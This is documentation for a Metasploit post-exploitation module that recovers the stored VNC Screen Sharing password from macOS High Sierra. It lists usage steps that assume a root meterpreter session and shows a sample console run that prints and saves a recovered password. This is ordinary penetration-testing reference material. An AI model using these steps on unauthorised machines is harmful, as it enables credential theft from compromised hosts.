 This module shows Apple VNC Password from Mac OS X High Sierra.

The password can be set by visiting:
System Preferences > Sharing > Screen Sharing > Computer Settings

## Vulnerable Application

  * macOS 10.13.6


## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start `msfconsole`
  2. Get an OSX meterpreter session running as root
  3. Do: `use post/osx/gather/vnc_password_osx`
  4. Do: `set SESSION [ID]`
  5. Do: `run`
  6. You should see the password


## Scenarios

  Typical run against an OSX session, with the vnc service activated:

```
msf5 exploit(multi/handler) > use post/osx/gather/vnc_password_osx
msf5 post(osx/gather/vnc_password_osx) > set SESSION 1
SESSION => 1
msf5 post(osx/gather/vnc_password_osx) > exploit

[*] Checking VNC Password...
[+] Password Found: PoCpassw
[+] Password data stored as loot in: .msf4/loot/20181002142527_default_10.0.2.15_osx.vnc.password_371610.txt
[*] Post module execution completed
msf5 post(osx/gather/vnc_password_osx) >
```
